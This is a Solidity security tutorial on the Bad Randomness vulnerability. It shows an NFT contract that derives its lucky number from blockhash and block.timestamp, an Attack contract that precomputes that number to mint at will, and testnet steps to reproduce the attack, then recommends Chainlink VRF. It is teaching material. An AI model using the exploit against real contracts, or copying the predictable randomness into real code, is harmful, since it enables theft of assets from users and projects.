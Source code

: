 ```yaml
---
title: S07. Bad Randomness
tags:
  - solidity
  - security
  - random
---
```


# WTF Solidity S07. Bad Randomness

Recently, I have been revisiting Solidity, consolidating the finer details, and writing "WTF Solidity" tutorials for newbies. 

Twitter: [@0xAA_Science](https://twitter.com/0xAA_Science) | [@WTFAcademy_](https://twitter.com/WTFAcademy_)

Community: [Discord](https://discord.gg/5akcruXrsk)｜[Wechat](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[Website wtf.academy](https://wtf.academy)

Codes and tutorials are open source on GitHub: [github.com/AmazingAng/WTF-Solidity](https://github.com/AmazingAng/WTF-Solidity)

English translations by: [@to_22X](https://twitter.com/to_22X)

-----

In this lesson, we will discuss the Bad Randomness vulnerability in smart contracts and methods to prevent. This vulnerability is commonly found in NFT and GameFi projects, including Meebits, Loots, Wolf Game, etc.

## Pseudorandom Numbers

Many applications on Ethereum require the use of random numbers, such as randomly assigning `tokenId` for NFTs, opening loot boxes, and determining outcomes in GameFi battles. However, due to the transparency and determinism of all data on Ethereum, it does not provide a built-in method for generating random numbers like other programming languages do with `random()`. As a result, many projects have to rely on on-chain pseudorandom number generation methods, such as `blockhash()` and `keccak256()`.

Bad Randomness vulnerability: Attackers can pre-calculate the results of these pseudorandom numbers, allowing them to achieve their desired outcomes, such as minting any rare NFT they want instead of a random selection. For more information, you can read [WTF Solidity 39: Pseudo-random Numbers](https://github.com/AmazingAng/WTF-Solidity/tree/main/39_Random).

![](./img/S07-1.png)

## Bad Randomness Example

Now let's learn about an NFT contract with the Bad Randomness vulnerability: BadRandomness.sol.

```solidity
contract BadRandomness is ERC721 {
    uint256 totalSupply;

    // Constructor, initializes the name and symbol of the NFT collection
    constructor() ERC721("", ""){}

    // Mint function: can only mint when the input luckyNumber is equal to the random number
    function luckyMint(uint256 luckyNumber) external {
        uint256 randomNumber = uint256(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))) % 100; // get bad random number
        require(randomNumber == luckyNumber, "Better luck next time!");

        _mint(msg.sender, totalSupply); // mint
        totalSupply++;
    }
}
```

It has a main minting function called `luckyMint()`, where users input a number between `0-99`. If the input number matches the pseudorandom number `randomNumber` generated on the blockchain, the user can mint a lucky NFT. The pseudorandom number is claimed to be generated using `blockhash` and `block.timestamp`. The vulnerability lies in the fact that users can perfectly predict the generated random number and mint NFTs.

Now let's write an attack contract called `Attack.sol`.

```solidity
contract Attack {
    function attackMint(BadRandomness nftAddr) external {
        // Pre-calculate the random number
        uint256 luckyNumber = uint256(
            keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))
        ) % 100;
        // Attack using the luckyNumber
        nftAddr.luckyMint(luckyNumber);
    }
}
```

The parameter in the attack function `attackMint()` is the address of the `BadRandomness` contract. In it, we calculate the random number `luckyNumber` and pass it as a parameter to the `luckyMint()` function to complete the attack. Since `attackMint()` and `luckyMint()` are called in the same block, the `blockhash` and `block.timestamp` are the same, resulting in the same random number generated using them.

## Reproduce on `Remix`

Since the Remix VM does not support the `blockhash` function, you need to deploy the contract to an Ethereum testnet for reproduction.

1. Deploy the `BadRandomness` contract.

2. Deploy the `Attack` contract.

3. Pass the address of the `BadRandomness` contract as a parameter to the `attackMint()` function of the `Attack` contract and call it to complete the attack.

4. Call the `balanceOf` function of the `BadRandomness` contract to check the NFT balance of the `Attack` contract and confirm the success of the attack.

## How to Prevent

To prevent such vulnerabilities, we often use off-chain random numbers provided by oracle projects, such as Chainlink VRF. These random numbers are generated off-chain and then uploaded to the blockchain, ensuring that the numbers are unpredictable. For more information, you can read [WTF Solidity 39: Pseudo-random Numbers](https://github.com/AmazingAng/WTF-Solidity/tree/main/39_Random).

## Summary

In this lesson, we introduced the Bad Randomness vulnerability and discussed a simple method to prevent it: using off-chain random numbers provided by oracle projects. NFT and GameFi projects should avoid using on-chain pseudorandom numbers for lotteries to prevent exploitation by hackers.

